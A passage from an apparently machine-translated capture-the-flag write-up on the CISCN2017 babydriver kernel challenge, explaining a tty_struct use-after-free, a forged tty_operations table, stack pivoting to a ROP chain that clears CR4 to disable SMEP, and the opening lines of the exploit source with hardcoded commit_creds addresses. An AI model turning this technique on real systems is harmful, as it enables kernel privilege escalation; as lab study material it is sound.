 

A lot of function pointers (pwn hand feng shui treasure), so I imagine constructing the structure shown in the figure below
```

fake_tty_struct  fake_tty_operations

+---------+      +----------+

|magic    |  +-->|evil 1    |

+---------+  |   +----------+

|......   |  |   |evil 2    |

|......   |  |   +----------+

+---------+  |   |evil 3    |

|*ops     |--+   +----------+

+---------+      |evil 4    |

|......   |      +----------+

|......   |      |......    |

+---------+      +----------+

```

Then we can jump to different evils through different operations (such as `write, ioctl`, etc.).


For this topic, because smep protection is enabled, if you want ret2usr to increase the weight, you need to modify the value of cr4, and the control function pointer is not enough. You can control the function pointer to perform the stack pivot and other operations to our rop chain. Space, close smep with rop, and then proceed.


&gt; This question is not given to vmlinux. You need to extract the kernel image using [extract-vmlinux] (https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux).


After turning off smep protection, you can use rop to do whatever you want. The final [exp](https://github.com/bash-c/pwn_repo/blob/master/CISCN2017_babydriver/uaf_tty_struct.c) is as follows:
```C

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <string.h>

#include <sys/types.h>

#include <sys/stat.h>

#include <fcntl.h>



#define prepare_kernel_cred_addr 0xffffffff810a1810

#define commit_creds_addr 0xffffffff810a1420
```